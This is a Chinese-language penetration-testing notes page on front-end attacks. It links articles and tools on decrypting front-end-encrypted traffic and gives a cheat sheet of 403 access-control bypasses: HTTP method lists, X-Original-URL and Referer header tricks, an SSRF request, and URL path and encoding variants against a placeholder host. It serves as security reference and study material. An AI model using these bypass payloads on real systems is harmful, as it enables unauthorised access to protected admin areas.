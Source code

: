 # 前端攻防

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

# 前端解密

**相关文章**
- [对登录中账号密码进行加密之后再传输的爆破的思路和方式](https://www.freebuf.com/articles/web/127888.html)
- [浅析前端加密后数据包的修改方法](https://www.freebuf.com/articles/web/223011.html)
- [浅谈web安全之前端加密](https://mp.weixin.qq.com/s/W1Jbrj6Jtg-J3-AX4eO-Eg)

**相关案例**
- [H5页面漏洞挖掘之路-加密篇](https://mp.weixin.qq.com/s/QRxMQFgAPlJsUwuw8Sv0JQ)

**相关工具**
- [Ebryx/AES-Killer](https://github.com/Ebryx/AES-Killer) - 可即时解密移动应用程序的 AES 加密流量的 Burp 插件

---

# 绕过访问

**相关工具**
- [iamj0ker/bypass-403](https://github.com/iamj0ker/bypass-403) - 一个用来绕过403报错的简单脚本

**Tips**
- protocol based bypass
    ```bash
    http://web.com/admin    # ===> 403
    https://web.com/admin   # ===> 200
    ```

- method based bypass
    ```bash
    OPTIONS
    GET
    HEAD
    POST
    PUT
    DELETE
    TRACE
    TRACK
    CONNECT
    PROPFIND
    PROPPATCH
    MKCOL
    COPY
    MOVE
    LOCK
    UNLOCK
    VERSION-CONTROL
    REPORT
    CHECKOUT
    CHECKIN
    UNCHECKOUT
    MKWORKSPACE
    UPDATE
    LABEL
    MERGE
    BASELINE-CONTROL
    MKACTIVITY
    ORDERPATCH
    ACL
    PATCH
    SEARCH
    ARBITRARY
    ```

- HTTP Header based bypass
    ```bash
    GET /admin HTTP/1.1
    Host: web.com   # ===> 403

    GET /anything HTTP/1.1
    Host: web.com
    X-Original-URL: /admin  # ===> 200

    GET /anything HTTP/1.1
    Host: web.com
    Referer: https://web.com/admin  # ===> 200

    GET https://qq.com HTTP/1.1
    Host: web.com   # ===> SSRF
    ```

- url character/parameter bypass
    ```bash
    /admin/panel    # ===> 403
    /admin/monitor  # ===> 200

    /admin/monitor/;panel   # ===> 302
    ```
    ```bash
    web.com/admin   # ===> 403

    web.com/ADMIN       # ===> 200
    web.com/admin/      # ===> 200
    web.com/admin/.     # ===> 200
    web.com//admin//    # ===> 200
    web.com/./admin/./  # ===> 200
    web.com/./admin/..  # ===> 200
    web.com/%2f/admin/  # ===> 200
    web.com/admin.json  # ===> 200(ruby)

    web.com/%2e/admin   # ===> 200
    web.com/%252e/admin # ===> 200
    web.com/%ef%bc%8fadmin  # ===> 200

    web.com/admin       # ===> 302
    web.com/admin..;/   # ===> 200
    ```
